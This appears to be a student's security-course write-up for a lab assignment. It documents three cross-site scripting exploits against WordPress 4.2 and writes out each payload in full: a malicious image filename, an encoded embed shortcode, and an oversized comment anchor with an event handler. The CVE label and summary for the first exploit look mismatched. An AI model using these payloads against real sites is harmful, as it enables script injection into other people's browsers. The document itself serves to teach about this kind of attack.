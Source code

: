 # CodePath Week 7
Week 7 Word Press Exploits

Exploit 1: Cross-Site Scripting (XSS)

Summary:
CVE-2017-0961
Vulnerability type : XSS
Tested Version: 4.2
Fixed Version: 4.2.1
Uploading a large payload file that exceeds the limit results in an error.

Steps:
xss<img src=x onerror=alert(1)>.png
upload to new media on wpdistillery


Exploit 2: Authenticated XSS in youtube link

Summary:
Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Must be a registered user with acess to edit/create posts
In creating a post, upload the following script:
[embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
After clicking update, click view post- you will get the XSS alert
![Exploit2XSSyoutubeurl](https://github.com/neilhendricks/week7/blob/master/2ndExploityoutubeurl.png?raw=true)


Exploit 3: Unauthenticated XSS in comment

Summary:

Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Comment on a post with the following script
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute; left:0; top:0; width:5000px; height:5000px  <insert 64kb of random data>'></a>





